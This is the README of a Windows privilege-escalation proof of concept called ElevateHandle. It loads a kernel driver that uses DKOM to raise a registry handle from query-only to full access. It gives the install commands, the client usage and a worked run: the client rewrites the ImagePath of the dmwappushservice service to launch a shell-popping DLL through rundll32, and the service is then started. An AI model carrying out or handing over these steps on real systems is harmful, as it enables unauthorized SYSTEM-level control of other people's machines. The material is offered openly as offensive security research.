 # ElevateHandle

PoCs to elevate handle access with DKOM method.

## Installation

```
PS C:\> sc.exe create ElevateHandle type= kernel binpath= C:\Dev\ElevateHandleDrv_x64.sys
PS C:\> sc.exe start ElevateHandle
```

## Client Program Usage

This technique requires a handle to the target object.
It is rare cases that low privileged process can get handles to high privileged process, so this client program performs service's binary path modification.

```
PS C:\Dev> .\ElevateHandleClient.exe -h

ElevateHandleClient - Client for ElevateHandleDrv.

Usage: ElevateHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -n, --name    : Specifies a service name to overwrite ImagePath value.
        -c, --command : Specifies a command to set ImagePath value.

[!] -n option is required.
```

For example, in Windows 10/11, we can start `dmwappushservice` service any users.
If attacers succeeds in tampering service registry key, it leads privilege escalation.
To test this situation, I put a [sample DLL to pop up shell in desktop session](./HijackShellLib/).
After `ImagePath` value modification, start the modified service as follows:

```
PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p

PS C:\Dev> C:\Dev\ElevateHandleClient.exe -n dmwappushservice -c "C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry"

[+] Got a service key handle.
    [*] Registry Key Path : \REGISTRY\MACHINE\SYSTEM\CurrentControlSet\Services\dmwappushservice
    [*] Granted Access    : KEY_QUERY_VALUE
[*] Current ImagePath is "%SystemRoot%\system32\svchost.exe -k netsvcs -p".
[>] Sending a query to \??\ElevateHandle.
[+] Got a handle to \??\ElevateHandle (Handle = 0x28C).
[+] Granted Access is elevated to KEY_ALL_ACCESS.
[+] ImagePath value is overwritten successfully.
[*] Done.

PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry

PS C:\Dev> sc.exe start dmwappushservice
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

PS C:\Dev>
```

![](./figures/ElevateHandle.png)
